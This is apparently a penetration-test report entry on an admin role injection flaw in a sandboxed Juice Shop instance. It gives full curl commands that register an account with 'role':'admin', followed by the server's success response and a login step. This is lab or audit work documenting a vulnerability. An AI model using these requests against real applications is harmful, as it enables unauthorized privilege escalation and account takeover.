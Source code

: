 ### AUTHZ-VULN-06: Admin Role Injection During Registration

**Summary:**
- **Vulnerable location:** POST /api/Users endpoint
- **Overview:** Create administrator accounts by injecting admin role during registration
- **Impact:** Complete privilege escalation from anonymous to full administrator access
- **Severity:** Critical

**Prerequisites:**
None - public registration endpoint

**Exploitation Steps:**

1. Register new user with admin role injection:
```bash
curl -s -i -X POST "http://juice-shop.sandbox.local:3001/api/Users" \
  -H "Content-Type: application/json" \
  -d '{
    "email": "pwned@evil.com",
    "password": "Password123!",
    "passwordRepeat": "Password123!",
    "role": "admin"
  }'
```

2. Receive successful admin account creation:
```json
{
  "status": "success",
  "data": {
    "id": 65,
    "email": "pwned@evil.com",
    "role": "admin",
    "profileImage": "/assets/public/images/uploads/defaultAdmin.png"
  }
}
```

3. Login with the new admin account:
```bash
curl -s -i -X POST "http://juice-shop.sandbox.local:3001/rest/user/login" \
  -H "Content-Type: application/json" \
  -d '{
    "email": "pwned@evil.com",
    "password": "Password123!"
  }'
```

4. Receive admin JWT token confirming privilege escalation

**Proof of Impact:**
- **Admin account created** with User ID 65 and full administrator privileges
- **No validation** of role assignment during registration
- **Complete access** to all administrative functions and sensitive data
- **Bypass mechanism:** Direct role injection without any authorization checks
